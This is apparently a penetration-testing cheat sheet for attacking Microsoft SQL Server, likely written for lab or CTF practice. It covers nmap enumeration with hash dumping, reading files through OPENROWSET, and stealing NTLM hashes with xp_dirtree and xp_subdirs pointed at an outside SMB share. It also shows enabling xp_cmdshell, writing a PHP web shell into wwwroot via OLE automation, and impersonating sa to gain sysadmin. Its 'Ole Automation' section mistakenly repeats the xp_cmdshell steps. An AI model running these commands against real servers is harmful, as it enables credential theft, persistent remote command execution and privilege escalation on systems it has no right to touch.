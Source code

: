 # 1433 - MSSQL - Microsoft SQL Server

## Enumeration

| Command                                                                                                                                                                                                                                                                                                     | Description                                              |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------- |
| `sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248` | Nmap MSSQL enumeration                                   |
| `mssql_ping`                                                                                                                                                                                                                                                                                                | Msf scanner (version, server name, np, etc.)             |
| `mssqlclient.py <user>@<FQDN/IP> -windows-auth`                                                                                                                                                                                                                                                             | Log in to the MSSQL server using Windows authentication. |

## Tables

| Table      | Description                                                                                                                                                                                                    |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `master`   | TABLE : Tracks all system information for an SQL server instance                                                                                                                                               |
| `model`    | TABLE : Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database |
| `msdb`     | TABLE : The SQL Server Agent uses this database to schedule jobs & alerts                                                                                                                                      |
| `tempdb`   | TABLE : Stores temporary objects                                                                                                                                                                               |
| `resource` | TABLE : Read-only database containing system objects included with SQL server                                                                                                                                  |

## Read local files in MSSQL

{% code overflow="wrap" %}
```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```
{% endcode %}

{% code overflow="wrap" %}
```sql
EXECUTE('SELECT * FROM OPENROWSET(BULK N''C:/Users/Administrator/Desktop/flag.txt'', SINGLE_CLOB) AS Contents') AT [LOCAL.TEST.LINKED.SRV]
```
{% endcode %}

## Hash stealing using the xp\_dirtree command in MSSQL

```sql
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```

## Hash stealing using the xp\_subdirs command in MSSQL

```sql
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

## Identify linked servers in MSSQL

```sql
 SELECT srvname, isremote FROM sysservers
```

## Identify the user and its privileges used for the remote connection in MSSQL

{% code overflow="wrap" %}
```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
```
{% endcode %}

## Enable XP\_cmdshell

```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

## Enable ole Automation Procedures (need to create file)



```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO

To create file : 

1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

## Impersonate Users

1. Identify

```powershell
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)
```

2. Verify our Current User and Role

```powershell
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0

(1 rows affected)
```

3. Impersonate the SA User

```powershell
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1

(1 rows affected)
```

